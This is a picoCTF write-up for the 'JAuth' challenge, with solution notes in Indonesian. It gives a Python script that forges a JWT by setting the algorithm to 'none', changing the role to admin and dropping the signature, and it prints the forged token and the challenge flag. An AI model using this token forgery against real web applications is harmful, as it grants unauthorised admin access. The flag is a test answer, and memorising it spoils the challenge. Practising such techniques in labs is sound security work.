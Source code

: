 <h1>JAuth</h1>
<h3>Description</h3>
<pre>
Description
Most web application developers use third party components without testing their security. Some of the past affected companies are:
Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
VerticalScope (internet media company) - outdated version of vBulletin forum software used
Can you identify the components and exploit the vulnerable one?
The website is running <a href='http://saturn.picoctf.net:50205/'>here</a>. Can you become an admin?
You can login as test with the password Test123! to get started.
</pre>
<h3>Solution</h3>
<p>Ganti header alg:none dan payload role:admin di jwt, lalu hapus signature. hasil jadinya</p>
<pre>{header}.{payload}.</pre>

```python3
import base64

def decodeJWT(token):
    parts = token.split('.')
    header =parts[0]
    payload = parts[1]
    
    header_ = base64.urlsafe_b64decode(header+"=")
    payload_ = base64.urlsafe_b64decode(payload+"=")
    
    change_header = base64.urlsafe_b64encode(header_.replace(b'HS256',b'none')).decode('ascii').rstrip('=')
    change_payload = base64.urlsafe_b64encode(payload_.replace(b'user',b'admin')).decode('ascii').rstrip('=')

    new_jwt = change_header+'.'+change_payload+'.'
    return new_jwt

token = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzI5MzIxODA2NDAzLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjkuMC42NjY4LjcxIFNhZmFyaS81MzcuMzYiLCJyb2xlIjoidXNlciIsImlhdCI6MTcyOTMyMTgwNn0.0xrLbVNmMKfO9sHXXMas5rTvbzQqcxEmilCjgMvhooQ'
print(decodeJWT(token))
```

<pre>
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzI5MzIxODA2NDAzLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjkuMC42NjY4LjcxIFNhZmFyaS81MzcuMzYiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MjkzMjE4MDZ9.
</pre>
<p>Ganti cookie jwt lama dengan yang baru</p>
<h3>Flag</h3>
<pre>
picoCTF{succ3ss_@u7h3nt1c@710n_72bf8bd5}
</pre>
